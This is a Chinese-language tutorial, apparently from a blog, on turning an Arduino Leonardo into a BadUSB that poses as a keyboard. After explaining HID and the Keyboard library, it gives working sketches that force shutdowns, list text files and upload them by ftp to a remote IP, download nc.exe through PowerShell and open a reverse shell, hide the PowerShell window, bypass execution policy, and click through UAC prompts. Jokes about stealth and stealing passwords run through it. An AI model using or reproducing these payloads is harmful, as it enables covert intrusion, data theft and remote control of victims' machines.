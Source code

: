 [TOC]

# BadUSB简介

BadUSB是利用伪造HID设备执行攻击载荷的一种攻击方式。用户插入BadUSB，就会自动执行预置在固件中的恶意代码，如下载服务器上的恶意文件，执行恶意操作等。由于恶意代码内置于设备初始化固件中，而不是通过autorun.inf等媒体自动播放文件进行控制，因此无法通过禁用媒体自动播放进行防御，杀毒软件更是无法检测设备固件中的恶意代码。这种攻击方式可以在不经意间实施攻击，而且不易被杀软或系统发觉~~事了拂袖去，深藏功与名~~

# 原理

## HID

HID是Human Interface Device的缩写，HID设备是直接与人交互的设备，例如键盘、鼠标与游戏杆等。HID设备并不一定要有人机接口，只要符合HID类别规范的设备都是HID设备。一般来讲针对HID的攻击主要集中在键盘鼠标上，因为只要控制了用户键盘，基本上就等于控制了用户的电脑。攻击者会把攻击载荷隐藏在一个正常的鼠标键盘中，或者将带有攻击载荷的设备伪装成HID设备。当用户将含有攻击载荷的鼠标或键盘，插入电脑时，恶意代码会被加载并执行。

## Arduino 

Arduino是一款便捷灵活、方便上手的开源电子原型平台。包含硬件（各种型号的Arduino板）和软件（Arduino IDE)。Arduino IDE可以在Windows、Macintosh OS X、Linux三大主流操作系统上运行，基于processing IDE开发。对于初学者来说，极易掌握，同时有着足够的灵活性。Arduino语言基于wiring语言开发，是对 avr-gcc库的二次封装，不需要太多的单片机基础、编程基础，简单学习后，可以快速的进行开发。

## Keyboard库

keyboard库的功能是将arduino 模拟成一个usb键盘。可以控制按下/放开键盘上的任意按键。通过设置按键顺序和恰当的延时可以实现组合键的键入

# 实践

在执行本步骤前需要准备以下资源

- 包含Arduino Leonardo芯片，长得像U盘的东西
- Arduino IDE

## 常用API与说明

| API名称                         | 作用            |
| ------------------------------- | --------------- |
| `Keyboard.press(char)`          | 按下某个按键    |
| `Keyboard.release(char)`        | 释放某个按键    |
| `Keyboard.print(const char*)`   | 输入字符串      |
| `Keyboard.println(const char*)` | 输入字符串+回车 |
| `Keyboard.releaseAll()`         | 释放所有按键    |
| `delay(uint millionseconds)`    | 延时函数        |

## 执行流程

Arduino包含两种类型的函数：`void setup()`是在设备初始化时执行的方法，只执行一次；`void loop`是在设备运行时不断执行的循环函数。在编写攻击脚本时，需要根据不同的需求将攻击载荷放置于不同的函数中。

## 简单代码示例

```cpp
void setup()
{ 
  Keyboard.begin();//初始化键盘通讯 
  delay(5000);//延时
  Keyboard.press(KEY_LEFT_GUI);//win键 
  Keyboard.press('r');//r键 
  delay(500); 
    
  Keyboard.release(KEY_LEFT_GUI);
  Keyboard.release('r');
  Keyboard.press(KEY_CAPS_LOCK);//利用开大写输小写绕过输入法
  Keyboard.release(KEY_CAPS_LOCK);
  delay(500); 
    
  Keyboard.println("CMD");
  delay(1000); 
    
  Keyboard.println("hELLO wORLD!");//由于开启了大写锁定，大小写颠倒
  Keyboard.press(KEY_CAPS_LOCK);
  Keyboard.release(KEY_CAPS_LOCK);
  Keyboard.end();//结束键盘通讯 
}

void loop() {}
```

编译后烧录到固件，双手垂下，~~坐和放宽~~，你就会看到电脑自己运行了CMD，并且敲了个`Hello World!`。嗯，就这么简单

![](https://tinytracer-1256246079.cos.ap-guangzhou.myqcloud.com/7c42ad773912b31bcbbc84a08618367ad8b4e1b2.jpg)

好吧..我知道你想干点坏事。

## 在危险的边缘试探

既然可以在CMD里敲命令，那么目录遍历呀、读取文件呀都是可以做滴。先从一个小小的恶作剧开始吧，在打开CMD后输入`shutdown -s -t 10`试试

```cpp
Keyboard.println("SHUTDOWN -S -T 10");
//更加友尽的命令
Keyboard.println("SHUTDOWN -S -T 0");
```

取消关机的命令是`shutdown -a`，手速要快哦

![](https://tinytracer-1256246079.cos.ap-guangzhou.myqcloud.com/7c42ad773912b31bcbbc84a08618367ad8b4e1b2.jpg)

CMD下使用DIR命令可以遍历目录，或者使用for命令列举文件，文件可以通过默认应用直接打开，如

```cpp
Keyboard.println("DIR");
delay(200)
Keyboard.println("for /r ./ %i in (.txt) do @echo %i ");
Keyboard.println("ftp xxx.xxx.xxx.xxx && mput *.txt");//我什么都不知道.jpg

Keyboard.press(KEY_LEFT_ALT);
Keyboard.press(KEY_F4); 
delay(200);
Keyboard.releaseAll();//我什么都不知道.jpg
```

于是你悄咪咪拿到了别人的密码。

![](https://tinytracer-1256246079.cos.ap-guangzhou.myqcloud.com/7c42ad773912b31bcbbc84a08618367ad8b4e1b2.jpg)

好吧我知道写死的命令满足不了你，你想要个shell。~~离派出所越来越近了~~

## 在作死的边缘试探

BadUSB的反弹shell基于键盘命令实现——在Linux下可以方便地使用`nc`命令来反弹shell，非常方便~~作死~~。但是Windows默认情况下并没有这么方便的工具，我们需要远程下载并执行`nc`文件。这个功能无法用CMD实现——但是WIN7以上有powershell！

```cpp
Keyboard.print("powershell");
Keyboard.press(KEY_RETURN);
Keyboard.release(KEY_RETURN);
delay(200);
Keyboard.println("chcp 65001");//将powershell编码切换至utf-8，防止乱码
delay(1000);
Keyboard.println("$dl = new-object system.net.webclient");//使用system.net.webclient对象实现下载功能
delay(1000);
Keyboard.println("$dl.downloadfile('http://example.com/nc.exe','d:\\nc.exe')");//第一个参数为目标文件的URL，第二个参数为本地保存文件路径
delay(1000);
Keyboard.println("d:\\nc.exe -e c:\\WINDOWS\\SYSTEM32\\cmd.exe ip port");
```

于是你得到了一个反弹shell，在远程主机上执行`nc -lvvp port`，然后等鱼上钩就好了。不过....当着别人的面执行nc不够隐秘~~怕不是要被打死~~。不过嘛，powershell很贴心地具有隐藏窗口功能，参数为`-w hidden`。在该模式下，powershell窗口不可见，但是可以输入并执行命令~~简直就是为了BadUSB量身定做的参数~~

```cpp
Keyboard.print("powershell -w hidden");
```

伴随着一闪而过的powershell窗口，你获得了一个反弹shell。~~事了拂袖去，深藏功与名~~

![](https://tinytracer-1256246079.cos.ap-guangzhou.myqcloud.com/7c42ad773912b31bcbbc84a08618367ad8b4e1b2.jpg)

普通的shell满足不了你...好吧，下面讲讲rootshell。注意，由于BadUSB基于模拟键盘，因此你能获得的最大权限与当前用户相同——提权右转WindowsEXP——不过有shell上传文件与执行并不是难事。假设当前用户是管理员，那么可以通过`powershell -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden`来开启管理员powershell，在执行时使用`CTRL+SHIFT+ENTER`来申请管理员权限。等等，遇到UAC怎么办？

![](https://tinytracer-1256246079.cos.ap-guangzhou.myqcloud.com/timg.jpg)

答案：`ALT+Y`

```cpp
Keyboard.print("powershell -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden");
delay(500);

Keyboard.press(KEY_LEFT_CTRL);
Keyboard.press(KEY_LEFT_SHIFT);
Keyboard.press(KEY_RETURN);
Keyboard.releaseAll();
delay(1000);

Keyboard.press(KEY_LEFT_ALT);
Keyboard.press('y');
delay(200);
```

后面就是常规的下载+执行操作了。这样一来，你获得了rootshell，为所欲为。

![](https://tinytracer-1256246079.cos.ap-guangzhou.myqcloud.com/7c42ad773912b31bcbbc84a08618367ad8b4e1b2.jpg)

额...打开运行菜单并输入执行命令的步骤是无法省略的，过低的延迟会让系统反应不及而导致执行失败~~在运行栏疯狂鬼畜~~。不过——至少我们能努努力，不让CMD或POWERSHELL的窗口弹出来。

```cpp
Keyboard.print("cmd /c start /min powershell -w hidden");
```

通过隐藏的CMD窗口调用POWERSHELL，这下一闪而过的窗口都没有啦！

![](https://tinytracer-1256246079.cos.ap-guangzhou.myqcloud.com/7c42ad773912b31bcbbc84a08618367ad8b4e1b2.jpg)

![](https://tinytracer-1256246079.cos.ap-guangzhou.myqcloud.com/v2-58f61002cc081f020c55e854ce07c94a_hd.jpg)

(未完待续)



